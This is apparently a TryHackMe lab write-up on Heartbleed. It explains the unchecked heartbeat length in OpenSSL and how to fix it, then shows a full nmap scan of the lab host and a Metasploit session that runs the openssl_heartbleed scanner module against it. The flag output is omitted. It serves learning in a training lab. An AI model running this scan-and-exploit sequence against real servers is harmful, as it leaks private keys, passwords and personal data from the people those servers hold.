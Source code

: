 # HeartBleed TryHackMe Writeup

## Background Information

Introduction to Heartbleed and SSL/TLS

On the internet today, most web servers are configured to use SSL/TLS. SSL(secure socket layer) is a predecessor to TLS(transport layer security). The most common versions are TLS 1.2 and TLS 1.3(recently released). Configuring a web server to use TLS means that all communication from that particular server to a client will be encrypted; any malicious third party that has access to this traffic will not be able to understand/decrypt the traffic, and they also will not be able to modify the traffic. To learn more about how TLS connections are established, check 1.2 and 1.3 out.

Heartbleed is a bug due to the implementation in the OpenSSL library from version 1.0.1 to 1.0.1f(which is very widely used). It allows a user to access memory on the server(which they usually wouldn't have access to). This, in turn, allows a malicious user to access different kinds of information(that they wouldn't usually have access to due to the encryption and integrity provided by TLS), including:

Server private key
Confidential data like usernames, passwords, and other personal information
Analyzing the Bug

The implementation error occurs in the heartbeat message that OpenSSL uses to keep a connection alive even when no data is sent. A mechanism like this is important because if a connection dies/resets quite often, it would be expensive to set up the TLS aspect of the connection again; this affects the latency across the internet, and it would make using services slow for users. A heartbeat message sent by one end of the connection contains random data and the data's length; this exact data is sent back when received by the other end of the connection. When the server retrieves this message from the client, here's what it does:

The server constructs a pointer(memory location) to the heartbeat record
It then copies the length of the data sent by a user into a variable(called payload)
The length of this data is unchecked
The server then allocates memory in the form of:
1 + 2 + payload + padding(this can be maximum of 1 + 2 + 65535 + 16)
The server then creates another pointer(bp) to access this memory
The server then copies the payload number of bytes from data sent by the user to the bp pointer
The server sends the data contained in the bp pointers to the user.
With this, you can see that the user controls the amount and length of data they send over. If the user does not send over any data(where the length is 0), it means that the server will copy arbitrary memory into the new pointer(which is how it can access secret information on the server). When retrieving data this way, the data can be different with different responses as the memory on the server will change.

Remediation

To ensure that arbitrary data from the server isn't copied and sent to a user, the server needs to check the length of the heartbeat message:

The server needs to check that the length of the heartbeat message sent by the user isn't 0
The server needs to check the length doesn't exceed the specified length of the variable that holds the data
References:

http://heartbleed.com/
https://www.seancassidy.me/diagnosis-of-the-openssl-heartbleed-bug.html
https://stackabuse.com/heartbleed-bug-explained/

No Answer needed

## Protecting Data in Transit

```
nmap -A -T4 -v -p- 34.255.10.55
22/tcp    open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 e4:99:20:fe:1f:59:c3:eb:2b:ea:43:a2:03:77:d9:f4 (RSA)
|   256 37:81:3e:2e:e1:ee:68:7b:be:df:4e:db:01:f4:b3:22 (ECDSA)
|_  256 49:ab:e1:4b:f6:5b:3b:ad:bf:52:b3:36:cf:8f:a6:a8 (EdDSA)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          50281/udp  status
|_  100024  1          52007/tcp  status
443/tcp   open  ssl/http nginx 1.15.7
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.15.7
|_http-title: What are you looking for?
| ssl-cert: Subject: commonName=localhost/organizationName=TryHackMe/stateOrProvinceName=London/countryName=UK
| Issuer: commonName=localhost/organizationName=TryHackMe/stateOrProvinceName=London/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-02-16T10:41:14
| Not valid after:  2020-02-16T10:41:14
| MD5:   4b3a f45e a597 6f3f 06f6 e9d2 518a c1c4
|_SHA-1: 01e8 fa58 e5a0 5102 d9e3 2ee3 8212 9d28 3934 4d57
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
52007/tcp open  status   1 (RPC #100024)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=4/1%OT=22%CT=1%CU=37257%PV=N%DS=2%DC=T%G=Y%TM=660A1150
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)SEQ(SP=10
OS:1%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3
OS:=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=68DF%W2=6
OS:8DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=FF%W=6903%O=M5B4NNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=FF%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=FF%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=FF%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=FF%CD=S)
```

We already know that there is a vulnerability - HeartBleed.

Let's start `msfconsole`
```
msf6 > search heartbleed
Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/server/openssl_heartbeat_client_memory  2014-04-07       normal  No     OpenSSL Heartbeat (Heartbleed) Client Memory Exposure
   1  auxiliary/scanner/ssl/openssl_heartbleed          2014-04-07       normal  Yes    OpenSSL Heartbeat (Heartbleed) Information Leak

msf6 > use 1
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 34.255.10.55
RHOSTS => 34.255.10.55
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > run
[HERE YOU WILL FIND THE FLAG]
```